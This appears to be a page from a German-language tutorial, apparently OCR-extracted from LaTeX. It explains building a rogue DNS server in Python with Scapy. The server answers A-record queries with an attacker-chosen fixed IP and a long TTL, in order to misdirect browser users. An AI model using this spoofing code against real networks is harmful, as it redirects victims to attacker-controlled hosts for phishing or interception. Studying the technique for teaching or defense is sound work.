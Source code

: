 \documentclass[10pt,a4paper]{article}
\begin{document}
Als Nächstes wird mit $\mathit{assert}$ sichergestellt, dass zum Einen der OP-Code Null ist und zum Anderen es sich um eine A-Record-Anfrage handelt. Dadurch dass der OP-Code Null ist, weiß unser Python-Server, dass es sich um eine DNS-Anfrage (Query) handelt. Da das Ziel darin besteht, einem Benutzer (eines Browsers) eine falsche IP zurück zu liefern, muss dieser auch eine IP-Auflösung anfragen. Da es sich bei einer IP-Auflösung um einen sogenannten A-Record handelt, prüft unser DNS-Server ebenfalls den Typ der Anfrage.
\begin{center}
\begin{lstlisting}
    response = DNS(
        id=dns_request.id,
        qr=1, opcode=0, aa=1, tc=0, rd=0, ra=0, z=0, rcode=0,  
        qdcount=1, ancount=1,
        nscount=dns_request.nscount, arcount=dns_request.arcount,
        qd=DNSQR(qname=dns_request[DNSQR].qname, qtype='A', qclass='IN'),
        an=DNSRR(rrname=dns_request[DNSQR].qname, type='A', rclass='IN', 
        	rdata=fixed_ip, ttl=86400),
        ns=dns_request.ns,
        ar=dns_request.ar
    )

    sock.sendto(bytes(response), addr)
\end{lstlisting}
\end{center}
Anschließend wird eine Antwort gebildet, welche zu der Angefragen Website die IP beinhaltet bzw. in unserem Fall eine vom Angreifer selbst gewählte IP. Um ein gültiges Antwort-Paket zu bilden, müssen mehrere Optionen (sogennante Flags) korrekt gesetzt sein. Die Optionen werden im Folgenden aus Gründen der Einfachheit in tabellarischer Form erläutert:
\end{document}
